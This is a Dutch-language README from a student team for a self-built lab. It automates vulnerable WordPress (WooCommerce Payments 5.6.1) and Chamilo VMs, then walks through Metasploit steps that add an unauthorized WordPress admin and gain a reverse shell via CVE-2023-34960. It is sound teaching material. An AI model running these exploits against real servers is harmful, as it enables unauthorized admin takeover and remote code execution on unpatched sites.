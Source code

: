 # Readme voor onze exploits

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.
En hoe je de exploit van Chamilo kan misbruiken.

## Scripts en requirements voor het opzetten van de omgeving.

We hebben de omgeving opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 8 bestanden vinden.

1. run_me.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 3 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook de bash scripts uitvoeren en dus de volledige installatie automatiseren.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. rootpromotie.sh
   - Dit bash script zal gekopieerd worden naar de kali linux machine en dan uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt voor de Kali Linux vm.
4. guestupdate.sh
   - Dit script update de guest-additions van VirtualBox op de Ubuntu/Debian server (dit is nodig voor VBoxManage correct te kunnen gebruiken).
   - Dit bash script zal gekopieerd worden naar de Ubuntu server machine en dan uitgevoerd worden door het run_me.ps1 script.
5. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.
6. script2.sh
   - Dit bash script zal ook uitgevoerd worden door het run_me.ps1 script.
   - Het zal onze Chamilo omgeving opzetten met de datank en voert verdere configuraties uit.
7. chamilo.sql
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit bestand zet de databank op voor Chamilo.
8. configuration.php
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit PHP-bestand bevat PHP-code die wordt gebruikt om dynamische functionaliteit toe te voegen aan onze Chamilo webpagina.

Check je VirtualBox versie, indien mogelijk update deze naar de nieuwste versie.

Download ook deze drie .vdi files van [OSBoxes](https://www.osboxes.org/), Zorg dat je altijd de 64 bit versie kiest!

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
3. Download de "Debian 11 Bullseye (Debian **server** versie)" [Debain-server](https://www.osboxes.org/debian/)

Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij. Pak nu alle  .vdi's uit.

## Opzetten van de omgeving

1. In een administrator PowerShell venster voer eerst volgende commando's uit:

   ```powershell
   Set-ExecutionPolicy Unrestricted -Scope CurrentUser
   Set-ExecutionPolicy Unrestricted
   ```

   Deze dienen ervoor dat je straks "run_me.ps1" kunt uitvoeren in PowerShell.

2. Pak de .zip file die u gedownload heeft uit.
3. In de map "Shared-Folder" vindt u alle scripts. Voer enkel het "run_me.ps1" uit, dit via rechtermuisklik "Run with Powershell" (niet met PowerShell ISE).
4.  Het script zal u vier absolute paden vragen:
    - Het pad van elk van de drie .vdi-bestanden.
    - Het pad van de "Shared-Folder", de map die u zojuist hebt gedownload en uitgepakt.
5. U moet ook de juiste ethernetadapter selecteren om te gebruiken.
    - Als u zich in een netwerk bevindt met authenticatie, waar het niet mogelijk is om meerdere IP-adressen te hebben op dezelfde NIC, zult u de omgeving niet kunnen opzetten.
    - Omdat onze VM's zijn ingesteld op een bridged adapter, zal dit niet mogelijk zijn.

6. Accepteer het installeren van Nuget services en sta ook updates toe indien nodig!
    - **(!!!sluit hierna u ps venster af en start terug opnieuw!!!)** Anders zal het script errors geven.
7. Zorg ervoor dat na het uitvoeren van het script de laatste regel in de console het volgende weergeeft:

```bash
CHAMILO: IP-adres van Debian-server: 172.31.32.247 #IP-adres dat logisch is in jouw netwerk
CHAMILO: domeinn naam van chamilo webserver: jaakisgeenarthur.com
WORDPRESS: IP-Adres van Ubuntu-server: 192.168.69.69 #IP-adres dat logisch is in jouw netwerk
WORDPRESS: domein naam van wordpress webserver: arthurisgeenjaak.com
```

Als dit niet het geval is, KAN dit betekent dat het hosts-bestand niet correct is aangemaakt. (controleeer dit)

Hier volgt een voorbeeld van hoe het einde van het script kan uitzien (indien er een fout is in geslopen):

```bash
CHAMILO: IP-adres van Debian-server: 172.31.32.247 #IP-adres dat logisch is in jouw netwerk
CHAMILO: domeinn naam van chamilo webserver: jaakisgeenarthur.com
WORDPRESS: IP-Adres van Ubuntu-server: # fout dit is leeg
WORDPRESS: domein naam van wordpress webserver: # fout dit is leeg
```

U kan de meeste problemen oplossen door:

-  Begin volledig opnieuw met voorkeur ook alle vms volledig verwijderen
-  als alles perfect werkt maar de hosts file incorrect is op de Kali linux: voeg handmatig de waardes in van arthurisgeenjaak.com --> ip in ```/etc/hosts``` of het andere ip adres en domein naam


## Misbruiken van de exploit in WooComerce a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.

Check of dat je de webpagina "arthurisgeenjaak.com" kan bereiken. Op "arthurisgeenjaak.com/wp-admin" inloggen kan met:arthur, wachtwoord: arthur

1. Open Metasploit op de Kali Linux en u zult een terminal te zien krijgen.
   In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

   ```bash
   search woocommerce
   ```

2. We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22". Gebruik voor het selecteren van de juiste exploit het commando:

   ```bash
   use #{numer van exploit. normaal 1}
   ```

3. Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit. Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

   ```bash
   show options
   ```

   ```bash
   set RHOSTS arthurisgeenjaak.com
   set username #{Username van het nieuw admin account die u wilt maken}
   set password #{Password van het nieuw admin account die u wilt maken}
   ```

4. Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

   ```bash
   exploit
   ```

5. Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server. Op "arthurisgeenjaak.com/wp-login.php" kan je dan met het aangemaakte account inloggen. Je kan hierdoor misbruik maken van deze exploit door dat je op de server kwaadaardige acties kan uitvoeren.

## Exploit van Chamilo

1. Op de Chamilo webpagina "jaakisgeenarthur.com" kan je inloggen met login: `admin`, wachtwoord: `Test123` dit kan je gewoon in een webbrowser doen.

Extra: als je ingelogd bent kan je controleren onder "Dashboard", dan onder het tablad "extensies" als je hieronder Chamilo "Rapid" ziet staan dan is de installatie succesvol.

2. Open Metasploit op de Kali Linux en zoek in de terminal naar de exploit van Chamilo.

```bash
   search chamilo
```

3. De exploit die we nodig hebben is "exploit/Linux/http/chamilo_unauth_rce_cve_2023_34960", om de juiste exploit te selecteren in de terminal van Metasploit gebruik je het commando:

```bash
use #{nummer van de exploit, normaal 0}
```

4. Om extra info te verkrijgen omtrent de commando's die je kan gebruiken in Metasploit, kan je het volgende commando gebruiken:

```bash
show options
```

5. Instellen van onze remote host:

```bash
set RHOST jaakisgeenarthur.com
```

6. Het huidige IP adres te zien van de Ubuntu server:

```bash
ip -a
```

7. Voor verbinding te maken met (onze) Chamilo server heb je het IP adres nodig van de Ubuntu server, omdat dit een reverse shell is.

```bash
set lhost #{IP adres}
```

8. Om de exploit uit te voeren, geef het volgende commando in:

```bash
exploit
```

9. Met het volgende commando kan je de configuratie van Chamilo bekijken.

```bash
pwd
ls
```

